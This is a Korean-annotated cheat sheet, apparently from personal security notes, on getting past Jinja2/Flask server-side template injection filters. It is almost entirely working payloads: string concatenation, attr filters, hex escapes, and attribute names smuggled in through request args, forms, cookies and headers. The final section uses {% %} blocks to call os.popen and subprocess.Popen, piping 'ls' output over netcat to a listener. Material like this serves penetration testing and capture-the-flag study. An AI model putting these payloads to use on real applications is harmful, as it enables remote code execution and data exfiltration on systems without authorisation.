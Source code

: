 # Bypass SSTI Filtering

```
뭘 해도 안될경우 'a'+'b'와 같이 하나씩 다 따로 붙여서 시도 해볼 수 있다. EX) {{request["cl"+"ass"]["mro"]}}
```

## config Filtering
{% raw %}
```python 
{{ self.__dict__ }}
{{ self['__dict__']}}
{{ self|attr("__dict__") }}
{{ self|attr("con"+"fig")}}
{{ self.__getitem__('con'+'fig') }}
{{ request.__dict__ }}
{{ request['__dict__']}}
{{ request.__getitem__('con'+'fig') }}
```
{% endraw %}
## .(dot) Filtering

> attr 이라는 속성을 사용하면 가능하다. ex) ''.__class__ → ''|attr('__class')

## ‘ _ [] Filtering

```python
request.__class__
request["__class__"]
request['\x5f\x5fclass\x5f\x5f']
request|attr("__class__")
request|attr(["_"*2, "class", "_"*2]|join) # Join trick

request|attr(request.headers.c) #Send a header like 
request|attr(request.args.c) #Send a param like "?c=__class__
request|attr(request.query_string[2:16].decode() #Send a param like "?c=__class__
request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join) # Join list to string
http://localhost:5000/?c={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_ #Formatting the string from get params
```

### 모든 키워드가 막혔을 시 rqeuest 객가 Filtering 안되었다면?
{% raw %}
```python
<http://127.0.0.1:8080/?c=>{{ request|attr(request.args.get('class')|attr(request.args.get('mro'))|attr(request.args.get('getitem'))(1) }}&class=__class__&mro=__mro__&getitem=__getitem__
<http://127.0.0.1:8080?c=>{{ request|attr(request.form.get('class'))|attr(request.form.get('mro'))|attr(request.form.get('getitem'))(1) }}
<http://127.0.0.1:8080?c=>{{ request|attr(request.cookies.get('class'))|attr(request.cookies.get('mro'))|attr(request.cookies.get('getitem'))(1) }}
<http://127.0.0.1:8080?c=>{{ request|attr(request.headers.get('class'))|attr(request.headers.get('mro'))|attr(request.headers.get('getitem'))(1) }}
```
{% endraw %}
{% raw %}
## {{}} Filtering → {% %}
```python
{% if(config.__class__.__init__.__globals__['os'].popen('ls | nc 127.0.0.1 8080')) %}{% endif %}
{% for i in range(0,500) %} {% if(((''.__class__.__mro__[1].__subclasses__()[i])|string) == "<class 'subprocess.Popen'>") %} {% if(''.__class__.__mro__[1].__subclasses__()[i]('ls | nc 127.0.0.1 8080', shell=True, stdout=-1)) %} {% endif %} {% endif %} {% endfor %}
```
{% endraw %}